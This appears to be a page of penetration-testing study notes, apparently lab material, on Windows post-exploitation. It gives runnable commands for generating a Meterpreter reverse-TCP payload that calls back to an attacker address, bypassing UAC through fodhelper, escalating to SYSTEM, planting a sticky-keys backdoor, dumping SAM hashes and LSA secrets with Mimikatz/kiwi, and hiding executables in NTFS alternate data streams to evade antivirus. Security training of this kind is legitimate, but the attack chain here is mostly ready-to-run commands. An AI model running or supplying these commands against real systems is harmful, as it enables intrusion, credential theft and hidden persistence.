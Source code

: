 ```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

search bypassuac
use exploit/windows/local/bypassuac_fodhelper
getsystem -t 1 

use post/windows/manage/sticky_keys
```

Gather Hashdump using Mimikatz
- Mimikatz is a post exploitation tool that enables users to save and view authentication credentials such as kerberos tickets, dump passwords from memory, PINs, as well as hashes. It enables you to perform functions such as pass-the-hash, pass-the-ticket, and makes post exploitation lateral movement within a network.

bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit.

- load kiwi 
  - load mimikatz.
- help kiwi 
  - view all the kiwi commands.
- lsa_dump_sam 
  - load NTLM Hash of all users.
- lsa_dump_secrets
  - LSA secrets are used to manage a system's local security policy, and contain sensitive data such as User passwords, IE passwords, service account passwords, SQL passwords etc.
- password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password


Discussed below are some of the remote code execution techniques:

- Exploitation for client execution
- Scheduled task
- Service execution
- Windows Management Instrumentation (WMI)
- Windows Remote Management (WinRM)

Hiding Files: Hiding files is the process of hiding malicious programs using methods such as rootkits, NTFS streams, and steganography techniques to prevent the malicious programs from being detected by protective applications such as Antivirus, Anti-malware, and Anti-spyware applications that may be installed on the target system. This helps in maintaining future access to the target system as a hidden malicious file provides direct access to the target system without the victim’s consent.

Hide Files using NTFS Streams:
- NTFS is a file system that stores any file with the help of two data streams, called NTFS data streams, along with file attributes. The first data stream stores the security descriptor for the file to be stored such as permissions; the second stores the data within a file. Alternate data streams are another type of named data stream that can be present within each file.
- type c:\magic\calc.exe > c:\magic\readme.txt:calc.exe 
  - This command will hide calc.exe inside the readme.txt.
- mklink backdoor.exe readme.txt:calc.exe
